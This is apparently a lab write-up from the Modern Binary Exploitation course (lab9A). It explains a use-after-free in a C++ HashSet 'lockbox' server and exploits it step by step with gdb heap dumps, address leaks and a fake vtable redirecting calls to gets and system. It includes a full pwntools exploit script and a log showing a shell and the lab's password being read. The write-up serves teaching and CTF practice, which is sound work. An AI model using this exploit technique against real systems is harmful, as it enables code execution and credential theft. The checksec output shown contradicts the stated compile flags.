

For this lab, we are given a program and its corresponding source code in C++.


/*
 * compile: g++ -fstack-protector-all -z relro -z now -O1 -fPIE -pie ./lab9A.cpp -g -o lab9A
 * clark's improved item storage server!  
 * Changelog:
 *   * Using HashSets for insta-access!   
 *
*/

#include <iostream>
#include <cstdlib>
#include <cstdio>
#include <unistd.h>
#include "utils.h"

ENABLE_TIMEOUT(300)

#define SIZE_HASHSET_VEC 8

void
print_menu(void)
{
    printf("+----------- clark's improved item storage -----------+\n"
           "| [ -- Now using HashSets for insta-access to items!  |\n"
           "| 1. Open a lockbox                                   |\n"
           "| 2. Add an item to a lockbox                         |\n"
           "| 3. Get an item from a lockbox                       |\n"
           "| 4. Destroy your lockbox and items in it             |\n"
           "| 5. Exit                                             |\n"
           "+-----------------------------------------------------+\n");
}

/********* Storage implementation **********/

// hash functor
class hash_num {
    public:
        // I'm no mathematician
        unsigned int
        operator() (unsigned int const &key) const {
            return key;                            // dereferences key and returns result
        }
};

// Hashset
template<class T, class HashFunc>
class HashSet {
    public:
        HashSet(unsigned int size) : m_size(size), set_data(new T[size]) {}
        virtual ~HashSet() { delete [] set_data; }
        virtual void add(T val);

        virtual unsigned int find(T val); 
        virtual T get(unsigned int);
    private:
        unsigned int m_size;
        HashFunc m_hash;
        T *set_data;
};
typedef HashSet<int, hash_num> hashset_int;                    // hash_num is a functor [35]

template<class T, class HashFunc>
void
HashSet<T, HashFunc>::add(T val)
{
    int index = this->m_hash(val) % this->m_size;              // this isn't right, is it? val = numver you want to add.
    this->set_data[index] = val;
}

template<class T, class HashFunc>
unsigned int
HashSet<T, HashFunc>::find(T val)
{
    return this->m_hash(val) % this->m_size;
}

template<class T, class HashFunc>
T
HashSet<T, HashFunc>::get(unsigned int index)
{
    if (index >= m_size) {
        std::cout << "Invalid index" << std::endl;
        return T();
    }
    return set_data[index];
}

/********* Storage interface implementation **********/
void
do_new_set(hashset_int **set_vec)      // hashset_int **set_vec = ptr to a ptr->hash_int obj [58]
{
    int bin = -1;
    int choice = -1;
    std::cout << "Which lockbox do you want?: ";
    bin = get_unum();
    if (bin < 0) {
        std::cout << "Invalid set ID!" << std::endl;
        return;
    } else if (bin >= SIZE_HASHSET_VEC) { 
        std::cout << "No more room!" << std::endl;
        return;
    }
    std::cout << "How many items will you store?: ";
    choice = get_unum();
    set_vec[bin] = new hashset_int(choice); // choice = m_size [48]
}

void
do_add_item(hashset_int **set_vec)    // set_vec = ptr to a ptr->hash_int obj AKA array of ptrs to hash_int objects [58]
{
    int set_id = -1;
    int item_val = -1;

    std::cout << "Which lockbox?: ";
    set_id = get_unum();
    if (set_id < 0 || set_id >= SIZE_HASHSET_VEC) {
        std::cout << "Invalid set ID!" << std::endl;
        return;
    }

    std::cout << "Item value: ";
    item_val = get_unum();
    set_vec[set_id]->add(item_val);   // [62]
}

void
do_find_item(hashset_int **set_vec)
{
    int set_id = -1;
    int item_val = -1;
    int item_index = -1;

    std::cout << "Which lockbox?: ";
    set_id = get_unum();
    if (set_id < 0 || set_id >= SIZE_HASHSET_VEC) {
        std::cout << "Invalid set ID!" << std::endl;
        return;
    }

    std::cout << "Item value: ";
    item_val = get_unum();
    item_index = set_vec[set_id]->find(item_val);
    if (item_index == -1) {
        std::cout << "Item not found!" << std::endl;
    } else {
        std::cout << "Item Found" << std::endl;
        printf("lockbox[%d] = %d\n", item_index, set_vec[set_id]->get(item_index));
    }
}

void
do_del_set(hashset_int **set_vec)
{
    int del_id;
    std::cout << "Which set?: ";
    del_id = get_unum();
    if (del_id < 0 || del_id >= SIZE_HASHSET_VEC) {
        std::cout << "Invalid ID!" << std::endl;
        return;
     }
    delete set_vec[del_id];
}

int
main(int argc, char *argv[])
{
    hashset_int **set_vec = new hashset_int*[SIZE_HASHSET_VEC]; // array of pointers to lockboxes/hashset_int objects [58]
    int choice = -1;
    bool done = false;
    disable_buffering(stdout);

    while (!done) {
        print_menu();
        std::cout << "Enter choice: ";
        choice = get_unum();
        switch (choice) {
        case 1:
            do_new_set(set_vec);
            break;
        case 2:
            do_add_item(set_vec);
            break;
        case 3:
            do_find_item(set_vec);
            break;
        case 4:
            do_del_set(set_vec);
            break;
        case 5:
            done = true;
            break;
        default:
            puts("Invalid option!");
            break;
        }
    }

    delete [] set_vec;

    return EXIT_SUCCESS;
}


If we run `checksec`, we can see that stack canaries, NX, PIE and full RELRO are.


CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


## Intro

This program implements a HashSet class whose HashFunc is defined in a simple callable class instance.
The HashFunc simply dereferences a key and returns its value.
When the program starts, `hashset_int *set_vec[]`, an array of 8 pointers to lockboxes/hash_int objects is created.
Each pointer in this array points to a `hash_int` object.
Each `hash_int` object contains a vptr to a vftable of callable virtual functions, the number of items it is to store, and a pointer to an appropriately sized heap chunk, `set_data` that will store an array of integers. An example of such a `hash_int` object can be seen in the following snippet where `0x8050a10` is the `set_vec[]` array and `0x8050a38` is the `hash_int` object pointed to in `set_vec[0]`. 


gdb-peda$ x/16xw 0x8050a10
0x8050a10:      0x08050a38      0x08050ad8      0x00000000      0x00000000
0x8050a20:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a30:      0x00000000      0x00000019      0x08049aa8      0x00000020
0x8050a40:      0x00000000      0x08050a50      0x00000000      0x00000089
gdb-peda$ telescope 0x08050a38
0000| 0x8050a38 --> 0x8049aa8 --> 0x80496e0 (<_ZN7HashSetIi8hash_numED2Ev>:     push   ebp)
0004| 0x8050a3c --> 0x20 (' ') <------ number of items to hold in the lockbox
0008| 0x8050a40 --> 0x0 
0012| 0x8050a44 --> 0x8050a50 --> 0x0 <----- pointer to set_data, which is created via new T[0x20]
0016| 0x8050a48 --> 0x0 
0020| 0x8050a4c --> 0x89 <------- size metadata field of the set_data heap chunk
0024| 0x8050a50 --> 0x0 
0028| 0x8050a54 --> 0x0 
gdb-peda$ telescope 0x8049aa8   <----- vftable of 0x8050a38 object
0000| 0x8049aa8 --> 0x80496e0 (<_ZN7HashSetIi8hash_numED2Ev>:   push   ebp)
0004| 0x8049aac --> 0x804971e (<_ZN7HashSetIi8hash_numED0Ev>:   push   ebp)
0008| 0x8049ab0 --> 0x8049618 (<_ZN7HashSetIi8hash_numE3addEi>: push   ebp)
0012| 0x8049ab4 --> 0x8049660 (<_ZN7HashSetIi8hash_numE4findEi>:        push   ebp)
0016| 0x8049ab8 --> 0x8049692 (<_ZN7HashSetIi8hash_numE3getEj>: push   ebp)


## Vulnerability
The is a use-after-free vulnerability that exists within the program.
If we delete a `hash_int` object from the `set_vec[]` array, a pointer to the object will remain in the array!
This allows us to re-use the object after freeing the object, not knowing what new data has been allocated or written there. 

Graphically, 2 allocated boxes look something like this.

And in GDB, before freeing `set_vec[0]` and `set_vec[1]`:

gdb-peda$ x/64xw 0x08050a38-0x8
0x8050a30:      0x00000000      0x00000019      0x08049aa8      0x00000020
0x8050a40:      0x00000000      0x08050a50      0x00000000      0x00000089
0x8050a50:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a60:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a70:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a80:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a90:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050aa0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ab0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ac0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ad0:      0x00000000      0x00000019      0x08049aa8      0x00000020
0x8050ae0:      0x00000000      0x08050af0      0x00000000      0x00000089
0x8050af0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b00:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b10:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b20:      0x00000000      0x00000000      0x00000000      0x00000000


And after freeing `set_vec[0]` and `set_vec[1]`:

gdb-peda$ x/64xw 0x08050a38-0x8
0x8050a30:      0x00000000      0x000000a1      0xf7e89450      0xf7e89450
0x8050a40:      0x00000000      0x08050a50      0x00000000      0x00000089
0x8050a50:      0xf7e89450      0xf7e89450      0x00000000      0x00000000
0x8050a60:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a70:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a80:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a90:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050aa0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ab0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ac0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ad0:      0x000000a0      0x00000018      0x00000000      0x00000020
0x8050ae0:      0x00000000      0x08050af0      0x00000000      0x00020519
0x8050af0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b00:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b10:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b20:      0x00000000      0x00000000      0x00000000      0x00000000


Notice how the **vptr** in `0x8050a38` is overwritten with a libc address after it is freed.
Also, observe how the size of the chunk that originally started at address `0x8050a30` is now `0xa1`. 

We can actually exploit this use-after-free vulnerability by allocating a **third** box to leak both a heap address and a libc address.

Since we now have a free chunk of size `0x18` at `0x8050ad0` if we allocate this third box with 8 items in it, the new `hash_int` object will be allocated at `0x8050ad0`, but its `set_data` array will be allocated at `0x8050a30`! 

We can then leak a libc address and a heap address by printing items from the third box, which will start leaking addresses starting at `0x8050a38`!

We can subsequently use the libc leak to calculate the address of `system@libc`, `gets@libc`, and `binsh@libc`. 

## EIP Control
Now, to control EIP, I at first crafted a fake vtable within a **4th box** that I added so that instead of `add()` being called, `system()` is called instead.

***Unfortunately, this is no good because when `system()` is called, while we do control EIP, we also only control `arg2`, not `arg1`, due to the way virtual functions are called.***

gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xf7441190 (<__libc_system>:       push   ebx)
EBX: 0xf75ab000 --> 0x1a9da8 
ECX: 0xf7561a24 ("/bin/sh")
EDX: 0x86c3a38 --> 0x86c3a70 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffd1f278 --> 0xffd1f2a8 --> 0x0 
ESP: 0xffd1f250 --> 0x86c3a38 --> 0x86c3a70 --> 0x0 
EIP: 0x8049278 (<_Z11do_add_itemPP7HashSetIi8hash_numE+177>:    call   eax)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804926e <_Z11do_add_itemPP7HashSetIi8hash_numE+167>:       mov    ecx,DWORD PTR [ebp-0xc]
   0x8049271 <_Z11do_add_itemPP7HashSetIi8hash_numE+170>:       mov    DWORD PTR [esp+0x4],ecx
   0x8049275 <_Z11do_add_itemPP7HashSetIi8hash_numE+174>:       mov    DWORD PTR [esp],edx
=> 0x8049278 <_Z11do_add_itemPP7HashSetIi8hash_numE+177>:       call   eax
   0x804927a <_Z11do_add_itemPP7HashSetIi8hash_numE+179>:       leave  
   0x804927b <_Z11do_add_itemPP7HashSetIi8hash_numE+180>:       ret    
   0x804927c <_Z12do_find_itemPP7HashSetIi8hash_numE>:  push   ebp
   0x804927d <_Z12do_find_itemPP7HashSetIi8hash_numE+1>:        mov    ebp,esp
Guessed arguments:
arg[0]: 0x86c3a38 --> 0x86c3a70 --> 0x0 
arg[1]: 0xf7561a24 ("/bin/sh")
[------------------------------------stack-------------------------------------]
0000| 0xffd1f250 --> 0x86c3a38 --> 0x86c3a70 --> 0x0 
0004| 0xffd1f254 --> 0xf7561a24 ("/bin/sh")
0008| 0xffd1f258 --> 0xffd1f2a8 --> 0x0 
0012| 0xffd1f25c --> 0xf76718ae (<_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc+46>:  add    esp,0x10)
0016| 0xffd1f260 --> 0x804b0c0 --> 0xf76d1e2c --> 0xf76700d0 (<_ZNSoD1Ev>:      push   ebx)
0020| 0xffd1f264 --> 0x8049a55 ("Enter choice: ")
0024| 0xffd1f268 --> 0x0 
0028| 0xffd1f26c --> 0xf7561a24 ("/bin/sh")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08049278 in do_add_item(HashSet<int, hash_num>**) ()

Notice that `arg1` points to `set_vec[0]`, and not to "/bin/sh".
***This is because everytime a virtual function is called, the*** `this` ***pointer is implicitly passed in as the first argument!!!***

Therefore, we need to find some other way to spawn a shell. 

To do this, we can instead, first call `gets@libc` to write a `";/bin/sh\0"` string after the fake vptr in `set_vec[0]`. 
Then we can call `system@libc` after this string is written, and now when we do, `arg1` will point to the string `"<fake_vptr>;/bin/sh\0"`, which will call `system("<addr_of_system>;/bin/sh\0");` and give us a shell.

Right before `system("<addr_of_system>;/bin/sh\0");` is called, the heap looks like the following:

gdb-peda$ x/64xw 0x9b7ba30
0x9b7ba30:      0x00000000      0x00000029      0x09b7ba70      0x69622f3b
0x9b7ba40:      0x68732f6e      0x09b70000      0x00000000      0x00000089
0x9b7ba50:      0xf7648450      0xf7648450      0x00000000      0x00000019
0x9b7ba60:      0x08049aa8      0x00000008      0x00000000      0x09b7ba78
0x9b7ba70:      0x00000000      0x00000029      0xf74de190      0xf7648450
0x9b7ba80:      0x00000000      0x00000000      0x00000000      0x00000000
0x9b7ba90:      0x00000000      0x00000000      0x00000000      0x00000039
0x9b7baa0:      0xf7648450      0xf7648450      0x00000000      0x00000000
0x9b7bab0:      0x00000000      0x00000000      0x00000000      0x00000000
0x9b7bac0:      0x00000000      0x00000000      0x00000000      0x00000000
0x9b7bad0:      0x00000038      0x00000018      0x08049aa8      0x00000008
0x9b7bae0:      0x00000000      0x09b7ba38      0x00000000      0x00020519


Notice that `set_vec[0]`'s vptr has been overwritten with `0x09b7ba70`, which is where we've placed our fake vftable.
When `do_add_item()` is called, it will derefernce `vftable+0x8` to get the address of what it thinks is the `add()` function.
However, because we've overwritten it with the address of `system@libc`, or `0xf74de190`, we will call `system()` instead.

Also notice that starting at `0x9b7ba3c`, we've placed our `";/bin/sh\0"` string.
 
Putting everything together, we get a shell using the following exploit.

## Solution

#!/usr/bin/env python

from pwn import *
import sys

def open_box(box, num_items):
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline(str(box))
    r.recvuntil(": ")
    r.sendline(str(num_items))
    r.recvuntil(": ")

def add_item(box,item_val):
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline(str(box))
    r.recvuntil(": ")
    r.sendline(str(item_val))
    r.recvuntil(": ")

def get_item(box, item_val, parse = True):
    r.sendline("3")
    r.recvuntil(": ")
    r.sendline(str(box))
    r.recvuntil(": ")
    r.sendline(str(item_val))
    if parse:
        return r.recvuntil(": ").split(" = ")[1].split("\n")[0]
    else:
        r.recvuntil(": ")

def del_box(box):
    r.sendline("4")
    r.recvuntil(": ")
    r.sendline(str(box))
    r.recvuntil(":")

def exploit(r):
    r.recvuntil(": ")

    ## allocate box0, box1
    open_box(0,32) # data_set chunk != fastbin size ( > 64 bytes)
    open_box(1,32) # data_set chunk != fastbin size ( > 64 bytes)

    ## free box0, box1
    del_box(0)
    del_box(1)

    ## allocate box2
    open_box(2, 8) #(0xa0-8)/4 = 38

    ## get items from box2
    heap_leak = int(get_item(2,3))
    libc_leak = int(get_item(2,1))
    libc_base = libc_leak-0x1aa4e8
    system = libc_base+0x40190
    binsh = libc_base+0x160a24
    gets = libc_base+0x64cd0
    fake_vtable = heap_leak+0x20

    log.success("heap chunk found at "+hex(heap_leak&0xffffffff))
    log.success("libc base found at "+hex(libc_base&0xffffffff))
    log.success("system@libc found at "+hex(system&0xffffffff))
    log.success("binsh@libc found at "+hex(binsh&0xffffffff))
    log.success("gets@libc found at "+hex(gets&0xffffffff))
    log.success("fake_vtable crafted at "+hex(fake_vtable&0xffffffff)+"!")

    ## add fake vptr to box0 through box2
    add_item(2,fake_vtable)

    ## allocate box3
    open_box(3,8)
    
    ## write gets@libc to box3.data_set[0] which is fake_vtable+0x8
    add_item(3,gets)  

    '''
    rh0gue@vexillum:~/libc-database$ ./dump local-6190cf8cf76a91fe996318cbd6d8c4180f11c115
    offset___libc_start_main_ret = 0x19a83
    offset_system = 0x00040190
    offset_dup2 = 0x000db590
    offset_read = 0x000dabd0
    offset_write = 0x000dac50
    offset_str_bin_sh = 0x160a24
    gets 00064cd0 
    '''
    #pause()
    ## add item to trigger gets(set_vec[0]);
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline("0")
    r.recvuntil(": ")
    r.sendline(p32(0xb00bface)) # whatever

    payload = p32(fake_vtable) # preserve fake vtable
    payload += ";/bin/sh\0"
    r.sendline(payload)

    ## write system@libc to box3.data_set[0] which is fake_vtable+0x8
    add_item(3,system)    
    
    #pause()
    ## add item to trigger system(set_vec[0]) = system("<addr_of_system>;/bin/sh\0");  
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline("0")
    r.recvuntil(": ")
    r.sendline(p32(0xb00bface)) # whatever
    
    r.interactive()
if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/MBE/lab09/9A/lab9A'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)



rh0gue@vexillum:~/Documents/MBE/lab09/9A$ python solve.py warzone 9941
[*] For remote: solve.py HOST PORT
[+] Opening connection to warzone on port 9941: Done
[+] heap chunk found at 0x9151048
[+] libc base found at 0xb74fc000
[+] system@libc found at 0xb753c190
[+] binsh@libc found at 0xb765ca24
[+] gets@libc found at 0xb7560cd0
[+] fake_vtable crafted at 0x9151068!
[*] Switching to interactive mode
Item value: $ id
uid=1035(lab9end) gid=1036(lab9end) groups=1036(lab9end),1001(gameuser)
$ whoami
lab9end
$ cat /home/lab9end/.pass
1_d1dNt_3v3n_n33d_4_Hilti_DD350
$  


## ADDENDUM
After completing this challenge, Grazfather informed me of an easier way to solve this challenge.
Instead of calling `gets()` and writing `;/bin/sh\0` to the heap, we can actually directly just call `system()+1` so that we skip the first `push` instruction which will shift our entire stack down.
Basically, our actual `arg2`, which we control, will be treated as `arg1`, the actual `arg1` will be treated as the **SRA**, etc.


gdb-peda$ pdisas __libc_system
Dump of assembler code for function __libc_system:
   0xf74de190 <+0>:     push   ebx
   0xf74de191 <+1>:     sub    esp,0x8
   0xf74de194 <+4>:     mov    eax,DWORD PTR [esp+0x10]
   0xf74de198 <+8>:     call   0xf75c494b <__x86.get_pc_thunk.bx>
 

So instead of calling `system(<this ptr>);`, we will call `system("/bin/sh\0");`!
